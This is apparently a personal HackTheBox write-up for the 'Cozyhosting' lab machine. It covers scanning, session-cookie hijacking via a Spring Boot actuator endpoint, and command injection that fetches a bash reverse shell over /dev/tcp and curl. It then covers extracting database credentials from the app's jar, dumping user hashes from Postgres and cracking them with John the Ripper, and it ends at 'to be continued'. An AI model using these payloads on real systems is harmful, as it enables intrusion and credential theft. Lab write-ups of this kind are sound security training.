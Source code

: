 # Machine: Cozyhosting [Hacked]
This is the fifteenth machine I have completed on the hackthebox platform. 
### Scan
IP_MACHINE: ip of cozyhosting
```
  nmap -sC -sV -p- --min-rate 5000 IP_MACHINE
```
add the domain cozyhosting.htb to the /etc/hosts file and open [ Burpsuite > Proxy > Open Browser ] navigate to route cozyhosting.htb/login. And do a login test with the credentials test:test
### Cookie Hijacking
open the [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ]. Where we can see a cookie that has been generated when trying to log in
```
JSESSIONID:VALUE
```
Now we will use gobuster to discover hidden directories:
```
gobuster dir --url http://cozyhosting.htb/ --wordlist $HOME/SecLists/Discovery/Web-Content/spring-boot.txt
### this is the one we are interested in: /actuator/sessions
```
We open a new tab and go to http://cozyhosting.htb/actuator/sessions where we can see a cookie generated that does not have authorization and another that does belong to the user Khanderson. 
then we copy it and replace it in our cookie [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ] and refresh the page.
### Admin dashboard
Now that we have logged in to the administration panel of the web application, we activate burpsuite traffic interception (Intercept is on). and enter the following values in the connection fields at the end of the Dashboard. We capture the POST method in Burpsuite and send it to [Burpsuite > Repeater].
```
Hostname: IP_MACHINE
Username: test
```
## Getting a reverse shell
already in [Bursuite > Repeater] we have the following message body
```
 host=IP_MACHINE&username=test
```
On our machine, we create a *payload.txt* file with the following content ( MY_IP: the IP address of our machine )
```
bash -i >& /dev/tcp/MY_IP/1234 0>&1
```
we initialize an http server on port 80
```
sudo python3 -m http.server 80
```
in a new terminal we initialize netcat
```
nc -nlvp 1234
```
now we manipulate the message body that we send to [Burpsuite > Repeater]
```
# Burpsuite payload
host=IP_MACHINE&username=$(curl$IFS"MY_IP"/payload.txt|bash)
```
With that we have a reverse shell and when we execute "ls" we discover a file called cloudhosting-0.0.1.jar that we will download locally on our machine to reverse engineer it. then within the reverse shell that we did to cozyhosting we started an http server.
```
# cozyhosting reverse shell
python3 -m http.server
```
To download it to our local machine we use:
```
# local machine
wget IP_MACHINE/cloudhosting-0.0.1.jar
```
## Exploiting the database
To reverse engineer the file we obtained, we opened [ jd-gui > Openfile > cloudhosting-0.0.1.jar ]. and we head to BOOT-INF/classes/application.properties where we will find the postgres database configurations:
```
# AN_PASSWORD: is the database password
spring.datasource.username=postgres
spring.datasource.password=AN_PASSWORD
```
now we go back to the reverse-shell in cozyhosting but we have to get a fully-tty. The procedure to obtain a fully-tty is as follows:
```
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
Now we enter the Postgres database of the remote system with the credentials that we obtained by reverse engineering the .jar file
```
psql -h <host> -U <username>
# It will ask us for a password, so we enter the AN_PASSWORD
```
Within the database we execute the following commands to obtain the authentication hashes of the system users
```
\c cozyhosting
\d
SELECT * FROM users;
```
## breaking hashes (cryptography)
which would look like this:
```
# HASHONE: is a hash of 61 characters
# HASHTWO: is another hash of 61 characters
kanderson | HASHONE | User
admin     | HASHTWO | Admin
```
We save them in a hash.txt file and proceed to decrypt the hashes with the John the Ripper tool (This process could take several minutes or even seconds depending on the GPU you have)
```
john --wordlist=$HOME/rockyou.txt hash.txt
```
#### to be continued... 
